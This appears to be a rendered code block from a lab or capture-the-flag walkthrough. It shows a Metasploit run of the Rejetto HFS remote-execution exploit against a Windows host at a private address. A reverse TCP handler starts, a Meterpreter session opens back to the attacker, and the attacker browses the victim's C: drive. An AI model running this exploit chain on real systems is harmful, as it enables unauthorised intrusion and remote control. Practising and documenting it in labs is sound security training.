 ```bash
msf5 exploit(windows/http/rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.43.37:4444 
[*] Using URL: http://0.0.0.0:8080/Yakh80
[*] Local IP: http://10.10.43.37:8080/Yakh80
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /Yakh80
[*] Sending stage (176195 bytes) to 10.10.235.182
[*] Meterpreter session 1 opened (10.10.43.37:4444 -> 10.10.235.182:49281) at 2022-04-21 17:16:35 +0000
[!] Tried to delete %TEMP%\iNBsGTDHB.vbs, unknown result
[*] Server stopped.

meterpreter > pwd
C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
meterpreter > cd C:\\
meterpreter > pwd
C:\
meterpreter > ls
Listing: C:\
============

Mode                Size                Type  Last modified                    Name
----                ----                ----  -------------                    ----
40777/rwxrwxrwx     0                   dir   2013-08-22 15:39:31 +0000        $Recycle.Bin
100666/rw-rw-rw-    1                   fil   2013-08-22 15:46:48 +0000        BOOTNXT
40777/rwxrwxrwx     0                   dir   2013-08-22 14:48:41 +0000        Documents and Settings
100666/rw-rw-rw-    3162859             fil   2020-10-12 19:06:09 +0000        EC2-Windows-Launch.zip
40777/rwxrwxrwx     0                   dir   2013-08-22 15:39:30 +0000        PerfLogs
40555/r-xr-xr-x     4096                dir   2013-08-22 13:36:16 +0000        Program Files
40777/rwxrwxrwx     4096                dir   2013-08-22 13:36:16 +0000        Program Files (x86)
40777/rwxrwxrwx     4096                dir   2013-08-22 13:36:16 +0000        ProgramData
40777/rwxrwxrwx     0                   dir   2019-09-26 14:04:18 +0000        System Volume Information
40555/r-xr-xr-x     4096                dir   2013-08-22 13:36:16 +0000        Users
40777/rwxrwxrwx     24576               dir   2013-08-22 13:36:16 +0000        Windows
100444/r--r--r--    398356              fil   2013-08-22 15:46:48 +0000        bootmgr
40777/rwxrwxrwx     0                   dir   2019-09-26 14:17:28 +0000        inetpub
100666/rw-rw-rw-    13182               fil   2020-10-12 19:06:12 +0000        install.ps1
15601544/r-xr--r--  162407247631122415  fif   5155485108-10-20 02:31:28 +0000  pagefile.sys

meterpreter > dir
Listing: C:\
============

Mode                Size                Type  Last modified                    Name
----                ----                ----  -------------                    ----
40777/rwxrwxrwx     0                   dir   2013-08-22 15:39:31 +0000        $Recycle.Bin
100666/rw-rw-rw-    1                   fil   2013-08-22 15:46:48 +0000        BOOTNXT
40777/rwxrwxrwx     0                   dir   2013-08-22 14:48:41 +0000        Documents and Settings
100666/rw-rw-rw-    3162859             fil   2020-10-12 19:06:09 +0000        EC2-Windows-Launch.zip
40777/rwxrwxrwx     0                   dir   2013-08-22 15:39:30 +0000        PerfLogs
40555/r-xr-xr-x     4096                dir   2013-08-22 13:36:16 +0000        Program Files
40777/rwxrwxrwx     4096                dir   2013-08-22 13:36:16 +0000        Program Files (x86)
```